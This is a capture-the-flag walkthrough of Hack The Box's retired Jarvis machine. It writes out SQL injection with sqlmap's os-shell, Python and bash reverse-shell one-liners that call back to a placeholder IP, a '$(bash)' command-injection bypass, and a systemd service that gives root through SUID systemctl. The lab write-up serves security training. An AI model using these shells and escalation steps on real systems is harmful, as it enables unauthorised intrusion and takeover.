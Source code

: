# Hack The Box - Jarvis walkthrough
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/jarvis.png?raw=true)

This walkthrough is about the retired Jarvis machine of Hack The box.  
It is a Linux based machine.  
This machine has a static IP address <10.10.10.143>   
It was a nice bit easy machine.  
  
You have to found **user.txt** and **root.txt** flag.   

## Penetration Methodology

* **Scanning**
  * open ports and services
* **Enumeration**
  * Enumerating the website about vulnerablities
* **Exploitation**
  * SQLI
  * exploitation using sqlmap
  * os-shell with sqlmap
  * machine access with Reverse-shell
* **Post Exploitation**
  * getting user access
  * privelage escalation from user to root
  
Now start pentesting the **Jarvis** machine.  

## Checking for open ports and services

We used **nmap** for checing the open ports and what services are running.
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/nmap.png)

As we can see that port **22** and **80** are open.

**Now start enumerating the website**

When we reach the website we got a page like this  
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/page.png)

## Enumerating the Website

**While enumerating the website after some time we found a page room.php**  

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_vul_room.png)

**This seems to be sql vulnerable** --> `<10.10.10.143/room.php?cod=1>` 

## Exploitation using sqlmap

Then we tried **sqlmap** with **--os-shell**
**using this** 
* `sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sqlmap_1.png)

And we got the shell

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_1.png)

Now we can use any reverse shell to get access of the machine

**I have used the python reverse shell**

Simply execute the reverse shell and also start the listener  

* `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

**We got the shell but it is not the proper user**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/conn.png)

Now we are www-data user so we enumerate for **user.txt** flag

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/enu_ww.png)

As we can see that only root and pepper user has privelages to read **user.txt**  
So we have to escalate our privelage to **pepper** user.

## Post Exploitation

So after some enumerating I look into **sudoers file**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/w_perm.png)

As we can see that **www-data** can run **/var/www/Admin-Utilities/simpler.py**  
with **pepper** user permission.

So we go through the **/var/www/Admin-Utilities/simpler.py** python file  
and in that we can see a **exec_ping** function and it looks something suspicious for privelage escalation to **pepper**.

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/ping.png)

As there are some blacklist symbols but **$** symbol is not blacklisted.  

So we simply run 
* ` sudo -u pepper /var/www/Admin-Utilities/simpler.py -p `
with **-p** which is ping option

Then it pop up with **Enter an IP** option  
There use the non-blacklisted symbol with bash command
* ` $(bash) `

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/pepper_shell.png)

**We got the pepper user**  

But we are not able to run any command so we try to get a reverse shell from **pepper** user  
and also start a listener

So I simply run a bash reverse shell command 
* `bash -i >& /dev/tcp/<your ip>/1234 0>&1`

And we got the new **pepper** user shell
Then we enumerate ffor **user.txt**
* `ls -al`
* `cat user.txt`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/user.png)

Now we have to read our **root.txt** flag  
So for that we have to escalate our privelage to **root**.

So firstly we check for **SUID bit SET**
* `find / -perm -u=s -type f 2>/dev/null`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/suid.png)

Here we find **/bin/systemctl** service running with **root** permission  

* As Systemctl is a systemd utility that is responsible for Controlling the systemd system and service manager.

So we make a new service named shell.service  
	
```
[Unit]
Description=hacking articles 
[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<your ip>/8888 0>&1'
[Install]
WantedBy=multi-user.target
```

Now download that service file from machine to **Jarvis** machine  
Now enable the service
* /bin/systemctl enable /home/pepper/shell.service
* /bin/systemctl start shell

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/ena.png)

Now start the listener again

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/root.png)

**We got the root.txt flag**
This is very good machine and I learn a lot of new things.

Author: Hardik Chugh
